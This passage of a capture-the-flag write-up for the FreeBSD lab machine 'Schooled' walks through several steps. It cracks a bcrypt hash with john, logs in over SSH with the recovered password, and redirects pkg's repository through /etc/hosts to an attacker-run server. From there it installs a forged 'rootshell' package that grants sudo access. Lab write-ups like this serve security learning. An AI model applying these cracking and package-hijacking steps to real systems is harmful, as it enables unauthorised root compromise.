

We can see a record of `jamie` who is also a **system user**. We also find the password hash which we can identify as a **Bcrypt** hash from the algorithm's identifier: `$2y$10`

Next step is to use `john` or `hashcat` to crack the hash.

```bash
john bcrypt_hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

John cracked the password successfully!



Knowing Jamie's password is `!QAZ2wsx`, we must try connecting to `ssh` and check for a potential credential recycling situation.

```bash
ssh jamie@10.129.96.53
```

We successfully login as `jamie@Schooled` to the system!



Having access of user `jamie` we can now capture the user flag.

Simply `ls` to check if the flag is on jamie's directory and `cat user.txt` to capture the user flag!



---

## Privilege Escalation

Trying to escalate our privileges, we can check first if our user `jamie` can execute any binary as `root`.

```bash
sudo -l
```

Checking for vulnerable binaries we get the following results.



User `jamie` can execute the `/usr/sbin/pkg` binary with parameters `update` and `install` as `root`.

In FreeBSD `pkg` is the operating system's **package manager**. It's used to download, install and remove pre-compiled packages. the `update` parameter updates the repository sources and `install` is used to find and fetch the requested package from the repository, and install it to the system.

A quick version check reveals potential vulnerabilities.

```bash
/usr/sbin/pkg --version
```



The `pkg` binary is running the version **1.16.3**.

We search the web for possible vulnerabilities without any result. We need to work with `update` and `install` and since we can use `root` execution to install and update the sources, we may be able to forge our own `.pkg` file with malicious payload

Searching for `pkg` configuration files under `/etc` we find the file `/etc/pkg/FreeBSD.conf`



The repository source URL is set to `http://devops.htb:80/packages`. We can modify the entry from `/etc/hosts` to install packages from our system to Jamie's system. We check if `jamie` has write permissions for `/etc/hosts` using the following commands.

```bash
ls -la /etc/hosts
```



We notice from the output of `id` that `jamie` belongs to the wheel group.



Editing `/etc/hosts` with `nano`, we change the DNS's source IP address from `192.168.1.14` to our systems local server.

```bash
nano /etc/hosts
```



We can setup a local python server on our system with the following command.

`python3 -m http.server`


Trying the `sudo pkg update` command we can see how `pkg` tries to fetch packages from our local server.



Searching in the FreeBSD documentation and other webpages we find a way to forge our malicious package. 

We change to `/tmp` and create a new directory `pkg` to work on our package.

```bash
touch pkg.sh && nano pkg.sh
```

We write the package details and our payload, which is to add `jamie` on the sudoers file and grant full sudo access.



Next we change the permissions of our `pkg.sh` to executable.

```bash
chmod +x pkg.sh
```

We run the script and find on `/tmp/pkg` the compiled package.



We also need to create a package repository.

```bash
pkg repo .
```



On our local server we must create a `packages` directory, since `pkg` searches for the requested packages in it.

```
mkdir packages
```

We must now download the built package over SSH using the `scp` utility.

```bash
scp jamie@10.129.96.53:/tmp/pkg/* ./packages
```


Now all we have to do is update our repository sources and install our forged rootshell package!

```bash
sudo pkg update
sudo pkg install rootshell
```


We execute `sudo -l` to check if our payload was successful.


Having the `rootshell` package installed to our system, adding `jamie` as a super user to the sudoers file, we can execute anything with sudo privileges. We can spawn a rooted shell using `sudo su`. Inside the `/root` directory we can find and capture our root flag!


---

## Vulnerabilities

- Stored XSS vulnerability in MoodleNet profile field (CVE-2020-25627).
- RCE vulnerability in Moodle 3.9 (CVE-2020-14321).
- Weak password policies leading to credential recycling.
- Misconfigured `pkg` environment allowing package repository source redirection.
- Partially unrestricted use of root privileges.

---

## Learning Outcome
This machine enhanced my skills in advanced network and web enumeration, especially in scenarios involving restricted environments such as blocked ICMP probes and non-standard port usage. Persistent inspection of the web interface revealed chained vulnerabilities that allowed me to escalate from a standard user to system access.

On the privilege escalation side, I gained hands-on experience in building and deploying malicious FreeBSD packages. By exploiting a misconfigured `pkg` environment and having write access to `/etc/hosts`, I redirected package sources and successfully installed a custom payload, ultimately gaining root access.

---

## Notes

This box offered a refreshing break from Linux machines, showcasing how enumeration and creative chaining of misconfigurations can lead to full system compromise on a BSD environment. Highly recommended for anyone wanting to explore FreeBSD or Moodle-based targets.

---

## Tools Used

- `nmap`, `gobuster`, `wfuzz`, `zaproxy`, `searchsploit`,`burpsuite`, `john`, `mysql`, `nano`, `scp`, `pkg`

---

## References
- https://nvd.nist.gov/vuln/detail/CVE-2020-14321
- https://security.snyk.io/vuln/SNYK-PHP-MOODLEMOODLE-1049535
- https://nvd.nist.gov/vuln/detail/CVE-2020-25627
- https://moodle.org/mod/forum/discuss.php?d=410839
- https://moodle.org/mod/forum/discuss.php?d=407393
- https://github.com/HoangKien1020/Moodle_RCE
- https://docs.freebsd.org/en/books/porters-handbook/new-port/
- https://lastsummer.de/creating-custom-packages-on-freebsd/


